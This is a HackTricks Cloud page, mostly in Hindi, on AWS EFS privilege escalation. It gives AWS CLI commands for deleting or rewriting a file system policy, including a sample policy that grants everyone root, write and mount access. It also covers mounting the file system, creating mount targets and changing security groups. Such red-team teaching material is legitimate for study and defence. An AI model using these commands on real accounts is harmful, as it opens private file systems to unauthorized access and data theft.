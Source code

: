 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

More **info about EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

याद रखें कि EFS को माउंट करने के लिए आपको उस उपनेटवर्क में होना चाहिए जहाँ EFS एक्सपोज़ किया गया है और आपके पास इसकी पहुँच होनी चाहिए (सुरक्षा समूह)। यदि ऐसा हो रहा है, तो डिफ़ॉल्ट रूप से, आप हमेशा इसे माउंट कर सकेंगे, हालाँकि, यदि इसे IAM नीतियों द्वारा सुरक्षित किया गया है, तो आपको इसे एक्सेस करने के लिए यहाँ उल्लेखित अतिरिक्त अनुमतियाँ होनी चाहिए।

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

इनमें से किसी भी अनुमति के साथ, एक हमलावर **फाइल सिस्टम नीति को बदल सकता है** ताकि **आपको इसकी पहुँच मिल सके**, या बस **इसे हटा सकता है** ताकि **डिफ़ॉल्ट पहुँच** दी जा सके।

नीति को हटाने के लिए:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
इसे बदलने के लिए:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

इस अनुमति के साथ, एक हमलावर **EFS को माउंट** करने में सक्षम होगा। यदि लिखने की अनुमति डिफ़ॉल्ट रूप से सभी को नहीं दी गई है जो EFS को माउंट कर सकते हैं, तो उसके पास केवल **पढ़ने की अनुमति** होगी।
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
The extra permissions `elasticfilesystem:ClientRootAccess` और `elasticfilesystem:ClientWrite` का उपयोग **write** करने के लिए किया जा सकता है जब यह फाइल सिस्टम माउंट किया गया हो और **access** करने के लिए उस फाइल सिस्टम को **root** के रूप में।

**Potential Impact:** फाइल सिस्टम में संवेदनशील जानकारी को खोजकर अप्रत्यक्ष प्रिवेस्क।

### `elasticfilesystem:CreateMountTarget`

यदि आप एक हमलावर हैं जो एक **subnetwork** के अंदर हैं जहाँ EFS का **कोई माउंट टारगेट** नहीं है। वह बस इस विशेषाधिकार के साथ **अपने सबनेट में एक बना सकता है**:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**संभावित प्रभाव:** फ़ाइल सिस्टम में संवेदनशील जानकारी को खोजकर अप्रत्यक्ष प्रिवेस्क।

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

एक परिदृश्य में जहाँ एक हमलावर पाता है कि EFS का माउंट टारगेट उसके उपनेटवर्क में है लेकिन **कोई सुरक्षा समूह ट्रैफ़िक की अनुमति नहीं दे रहा है**, वह बस **चुनिंदा सुरक्षा समूहों को संशोधित करके उसे बदल सकता है**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**संभावित प्रभाव:** फ़ाइल सिस्टम में संवेदनशील जानकारी को खोजकर अप्रत्यक्ष प्रिवेस्क।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
